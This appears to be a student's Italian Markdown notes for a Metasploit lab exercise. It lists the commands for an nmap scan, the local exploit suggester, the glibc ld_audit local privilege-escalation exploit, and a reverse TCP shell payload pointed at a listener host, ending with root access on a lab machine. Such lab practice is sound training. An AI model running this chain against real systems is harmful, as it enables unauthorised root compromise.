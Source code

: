 # **Metasploit pt - 3**
## **net discover**
```bash
nmap -sV -T5 192.168.1.40
```
## **avvio**
```bash
msfconsole
```
## **exploit**
```bash
search Exploit/linux/postgres-payload
```
## **avvio**
scan session exploit
```bash
use post/multi/recon/local_exploit_suggester
```
​➡️[Risultato](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit3/blob/main/Metasploit/Esercizio/3.png)

## **exploit**
```bash
use exploit/linux/local/glibc_ld_audit_dso_load_priv_esc
```

## **payload**
```bash
set payload payload/linux/x86/shell_reverse_tcp
```

## **conf payload**
```bash
set LHOST 192.168.1.25
set session 3
run
```
## **root**
➡️[Risultato](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit3/blob/main/Metasploit/Esercizio/7.png)


